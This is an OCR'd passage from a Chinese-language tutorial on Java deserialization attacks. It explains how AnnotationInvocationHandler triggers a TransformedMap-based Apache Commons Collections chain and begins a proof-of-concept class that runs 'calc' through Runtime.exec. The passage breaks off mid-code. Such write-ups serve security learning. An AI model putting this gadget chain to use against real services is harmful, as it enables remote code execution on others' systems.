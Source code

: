 ```java
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

核心逻辑就是 `Map.Entry<String, Object> memberValue : memberValues.entrySet()` 和 `memberValue.setValue(...)` 。

`memberValues` 就是反序列化后得到的Map，也是经过了`TransformedMap`修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用 `setValue` 设置值的时候就会触发 TransformedMap 里注册的 `Transform`，进而执行我们为其精心设计的任意代码。

所以，我们构造POC的时候，就需要创建一个AnnotationInvocationHandler对象，并将前面构造的
HashMap设置进来： 

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

这里因为 sun.reflect.annotation.AnnotationInvocationHandler 是在JDK内部的类，不能直接使
用new来实例化。使用反射获取到了它的构造方法，并将其设置成外部可见的，再调用就可以实例化
了。

AnnotationInvocationHandler类的构造函数有两个参数，第一个参数是一个Annotation类；第二个是
参数就是前面构造的Map。  

## 构造利用链

AnnotationInvocationHandler就是利用链的起点了，我们用如下代码将这个对象生成序列化流：

```java
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(obj);
oos.close();
```

将这段代码贴在demo的后面，尝试运行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",new Class[] {String.class},new Object[] {"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("test","xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

```